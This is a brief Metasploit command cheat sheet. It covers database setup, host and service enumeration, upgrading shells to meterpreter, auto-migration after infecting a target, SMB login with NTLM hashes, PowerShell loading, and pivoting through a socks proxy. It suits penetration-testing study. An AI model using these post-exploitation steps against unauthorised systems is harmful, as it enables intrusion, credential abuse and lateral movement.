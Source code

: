 ### source
https://github.com/rapid7/metasploit-framework  

### execute before start of msfconsole
```
msf> systemctl start postgresql
```

### initiate db
```
msf> msfdb init
```

### check status
```
msf> db_status
```

### list windows 2008 server
```
msf> hosts -u -S 2008
```

### show services of specific host
```
msf> services <rhost>
```

### set rhosts for specific open port
```
msf> services -R -u -p <rport>
```

### execute command on all sessions
```
msf> sessions -c ipconfig
```

### upgrade a shell session
```
msf> use post/multi/manage/shell_to_meterpreter
```

### shortcut for choosing correct handler inside the context of payload module
```
msf> to_handler
```

### automigrate to another process, directly after infecting target
```
msf> set AutoRunScript post/windows/manage/migrate
```

### smb_login with ntlm hash
```
ms> set smbpass <nthash:nthash>
```

### load powershell script into current meterpreter session
```
mtr> powershell_import <localFile>.ps1
```

### tunnel traffic trough proxy
```
msf> set PROXIES HTTP:127.0.0.1:8080
```

### pivoting using proxychains
```
msf> auxiliary/server/socks_proxy
msf> set version 4a
msf> route add <ipRange> <sessionId>
msf> run -j
```

### adjust listening port in vim /etc/proxychains4.con
```
socks4  127.0.0.1 1080
```

